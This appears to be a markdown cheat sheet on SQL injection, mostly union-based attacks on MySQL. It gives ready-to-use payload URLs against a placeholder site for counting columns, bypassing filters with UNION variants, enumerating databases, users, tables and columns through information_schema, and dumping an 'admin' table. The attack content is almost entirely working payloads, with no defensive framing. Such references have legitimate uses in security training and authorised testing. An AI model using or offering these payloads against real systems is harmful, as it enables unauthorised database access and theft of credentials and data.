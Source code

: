 # SQL Injection Basic To Advanced

## General Process:
- Find injection point  
- Understand the website behaviour  
- Hunting SQL Errors
- Identify Attack Types
- Injections And Bypass Process
- Dump Data

## SQL Error Hunting Types
- String Based
- Integer Based

## Types Of SQL Injection Attacks
- Union Based SQL Injection Attacks
- Error Based Injection Attacks
- Blind SQL Injections (Bollean Based And Time Based)

![SQL Injection](https://media.geeksforgeeks.org/wp-content/uploads/20220716180638/types.PNG)

# Union Based SQL Injection

## General Process:
- Find Column Count
- Using UNION Operator To Add Malicious Statement
- Gather Database And DBMS Informations
- Finding Tables
- Finding Columns Of Table Or Tables
- Dump Data


**Finding Column Count**
```
https://vuln-web.vuln/product.php?id=1' ORDER BY 1-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1-- -

https://vuln-web.vuln/product.php?id=1' ORDER BY 1 ASC-- -

https://vuln-web.vuln/product.php?id=1' GROUP BY 1 DESC-- -
```

**Using UNION Operator To Add Malicious Statement**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,3,4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION+ALL+SELECT+null,null,null,null,null-- -
https://vuln-web.vuln/product.php?id=1' UNION(SELECT(1),(2),(3),(4),(5))-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT CHAR(1),CHAR(2),CHAR(3),CHAR(4),CHAR(5)-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT * FROM (SELECT 1)a JOIN(SELECT 2)b JOIN(SELECT 3)c JOIN(SELECT 4)d JOIN(SELECT 5)e-- -
https://vuln-web.vuln/product.php?id=1' UNION Distinctrow SELECT 1,2,3,4,5-- -
```

## Understanding MYSQL DBMS Structures

```
MYSQL DBMS -> USER -> DATABASE -> TABLES -> ROWS -> Data
```
**information_schema Database**
```
provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.
```

**Gather Database And DBMS Informations**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT database()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT version()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT user()),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT @@datadir),4,5-- -
```

**Finding Tables**
```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),4,5-- -
```

**Finding Columns Of Table Or Tables**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='admin'),4,5-- -
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name,':',column_name) FROM information_schema.columns WHERE table_schema=database()),4,5-- -
```

**Dump Data**

```
https://vuln-web.vuln/product.php?id=1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column1,':',column2) FROM admin),4,5-- -
```

